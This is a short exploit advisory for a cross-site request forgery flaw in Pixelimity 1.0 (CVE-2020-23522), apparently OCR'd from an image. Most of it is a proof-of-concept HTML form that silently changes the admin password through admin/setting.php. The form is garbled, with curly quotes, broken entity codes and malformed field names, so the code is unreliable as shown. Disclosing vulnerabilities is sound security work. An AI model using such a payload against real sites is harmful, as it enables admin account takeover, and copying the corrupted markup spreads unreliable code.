     # Exploit Title: Pixelimity 1.0 - 'password' Cross-Site Request Forgery
    # Date: 2020-06-03
    # Exploit Author: Noth
    # Vendor Homepage: https://github.com/pixelimity/pixelimity
    # Software Link: https://github.com/pixelimity/pixelimity
    # Version: v1.0
    # CVE : 2020-23522

    Pixelimity 1.0 has cross-site request forgery via the admin/setting.php data [Password] parameter.

    PoC :

    <html>
    <body>
    <script>history.pushState(",",'/')</script>
    <form action=“http://127.0.0.1/pixelimity-dev/admin/setting.php
    ” method=“POST”>
    <input type=“hidden” name=“submit_setting” value=“Save Setting”/>
    <input type=“hidden” name=“data[admin_portfolio_show]”
    value=“5”/>
    <input type=“hidden” name=“data[admin_pages_show]”
    value=“5”/>
    <input type=“hidden” name=“admin[data_password]”
    value=“456789”/>
    <input type=“hidden” name=“data[site#95;name]"
    value=“Pixelimity”/>
    <input type=“hidden” name=“data[site_name]show]”
    value=“My Online Portfolio”/>
    <input type=“hidden” name=“data[home_image_size&#93” value=“5”/>
    <input type=“hidden” name=“ data[single_image_image_size#93
    ” value=“ 240&44;0,0&44;auto ”/>
    <input type=“hidden” name=“data[single_image_image_size#93”
    value=“720&44;0,0&44;auto”/>
    <input type=“submit” value=“Submit request”/>
    </form>
    </body>
    </html>